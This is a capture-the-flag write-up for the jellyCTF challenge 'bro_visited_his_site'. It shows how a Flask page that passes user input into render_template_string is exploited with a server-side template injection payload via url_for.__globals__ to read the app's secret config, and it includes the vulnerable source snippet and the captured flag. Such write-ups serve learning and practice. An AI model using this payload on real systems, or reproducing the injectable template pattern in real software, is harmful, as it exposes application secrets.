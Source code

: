 # bro_visited_his_site

## Difficulty

Easy

## Points Earned

343

## Description

> bro stored his secrets in the flask app config
> 
> note: this is not /app/flag.txt - that's bro_visited_his_site_2
> 
> 10 point hint: attack type
> 
> 20 point hint: writeup for similar problem
> 
> Author: arepi
> 
> https://bro-visited-his-site.jellyc.tf/

![bro_visited_his_site website input](./images/bro_visited_his_site_input.png "bro_visited_his_site input")

![bro_visited_his_site website output](./images/bro_visited_his_site_output.png "bro_visited_his_site output")

## Solution

The website takes whatever's in the text box and outputs `[text]pilled [text]maxxer`. We can use double brackets to execute code as well. For example, when I input `{{7*7}}` I get `49pilled 49maxxer`. However I can't access the app config by inputting `{{config}}` because of these lines in the source code:

```python
return render_template_string(f'''
    {{% set config="friend" %}}
    {{% set self="visit" %}}
    <p>
        {word}pilled {word}maxxer
    </p>
```

I unlocked hint 2 and got a link to a write up for a similar problem:

### Hint 2

> https://ctftime.org/writeup/10895

To access the flag, we can either put `{{url_for.__globals__['current_app'].config['FLAG']}}` into the text box or `https://bro-visited-his-site.jellyc.tf/response?word={{url_for.__globals__['current_app'].config['FLAG']}}` into the address bar.

![bro_visited_his_site solution](./images/bro_visited_his_site_sol.png "bro_visited_his_site solution")

## Flag

`jellyCTF{f1agp1ll3d_t3mpl4te_1nj3ct10nmaxx3r}`